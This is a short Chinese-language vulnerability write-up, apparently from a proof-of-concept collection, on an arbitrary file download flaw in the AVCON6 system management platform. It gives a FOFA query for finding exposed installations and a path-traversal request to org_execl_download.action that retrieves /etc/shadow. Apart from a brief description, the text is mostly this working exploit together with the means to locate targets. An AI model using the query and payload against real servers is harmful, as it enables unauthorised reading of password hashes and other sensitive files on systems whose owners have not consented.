


# AVCON6 系统管理平台 org_execl_download.action 任意文件下载漏洞

## 漏洞描述

AVCON6 系统管理平台 org_execl_download.action存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
AVCON6 系统管理平台
```

## FOFA

```
app="AVCON-6"
```

## 漏洞复现

登录页面



验证POC

```php
/org_execl_download.action?filename=../../../../../../../../../../../../../etc/shadow
```

